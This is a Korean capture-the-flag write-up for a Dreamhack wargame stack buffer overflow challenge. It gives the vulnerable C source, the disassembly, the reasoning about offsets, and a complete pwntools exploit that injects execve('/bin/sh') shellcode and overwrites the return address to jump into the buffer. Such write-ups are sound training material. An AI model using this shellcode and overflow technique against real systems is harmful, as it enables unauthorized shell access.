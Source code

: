 # [basic_exploitation_000](https://dreamhack.io/wargame/challenges/2/) 

 문제 파일의 코드는 다음과 같다. 주석은 코드의 해석들 위하여 본인이 직접 작성한 것이다.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0); // 표준 입력에서 버퍼를 사용하지 않는다.버퍼를 지나지 않고 요청 즉시 작업이 진행된다. 
    setvbuf(stdout, NULL, _IONBF, 0); // 표준 출력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다.

    signal(SIGALRM, alarm_handler); // SIGALRM이 발생하면 alarm_handler를 실행한다.
    alarm(30);//30초 후에 SIGALRM을 발생시킴.
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf); //buf의 주소 값을 출력
    scanf("%141s", buf);

    return 0;
}
```

## Exploit strategy
 유심히 봐야할 코드는 scanf("%141s", buf); 이다. buf의 크기는 0x80 = 128 byte이므로 scanf를 통하여 buf의 크기보다 더 많은 양의 데이터를 입력할 수 있다. 이를 이용하여 스택 버퍼 오버 플로우를 발생시키면 된다. pwndbg를 통하여 주어진 바이너리 파일의 main함수를 disassemble하여 살펴보자. 
 
```assembly 
   0x080485d9 <+0>:     push   ebp
   0x080485da <+1>:     mov    ebp,esp
   0x080485dc <+3>:     add    esp,0xffffff80
   0x080485df <+6>:     call   0x8048592 <initialize>
   0x080485e4 <+11>:    lea    eax,[ebp-0x80]
   0x080485e7 <+14>:    push   eax
   0x080485e8 <+15>:    push   0x8048699
   0x080485ed <+20>:    call   0x80483f0 <printf@plt>
   0x080485f2 <+25>:    add    esp,0x8
   0x080485f5 <+28>:    lea    eax,[ebp-0x80] // 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함. 
   0x080485f8 <+31>:    push   eax
   0x080485f9 <+32>:    push   0x80486a5
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>
   0x08048603 <+42>:    add    esp,0x8
   0x08048606 <+45>:    mov    eax,0x0
   0x0804860b <+50>:    leave
   0x0804860c <+51>:    ret
```

lea eax,[ebp-0x80]를 보면 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함을 알 수 있다. 스택 프레임의 구조를 떠올려보자. ebp에는 SFP가 저장되므로 ebp+0x4(공격 대상 컴퓨터는 32bit이므로 포인터 크기는 4바이트이기 때문이다.)에 return address가 저장될 것임을 알 수 있다. 그런데 return address에 shell code를 넣을 수는 없다. 우리가 사용할 쉘코드는 26바이트이기 때문이다.(scanf는 \x09, \x0a, \x0b, \x0c, \x0d, \x20를 읽지 못하는데 25byte인 일반적인 shell code는 \x0b를 포함하므로 사용할 수 없다.) 따라서 return address에 buf의 주소를 넣고 buf안에 shell code를 넣어 shell code를 실행시킬 것이다.이제 Exploit script를 작성해보자. 

## Exploit script

# importing pwntools
```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',13680) 

#공격 대상 아키텍쳐는 x86
context.arch = 'i386' 

#buf의 주소 값을 담는 작업
p.recvuntil('buf = (') #  주소를 따로 저장하기위해 'buf = (' 까지만 받는다.
buf_addr = int(p.recv(10),16) # 문자열로 받은 주소를 16진수 정수로 변환하여 저장
p.recvline() # 남은 \n 처리

#payload 작성
payload = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80" # 26byte shell code를 버퍼에 담는다.

payload += "\x90"*(132-26) # 0x80+0x4 - ebp+0x4까지 더미 값으로 채움. 

payload += p32(buf_addr) #32bit packing(little endian의 byte 배열로 변경)

p.send(payload)



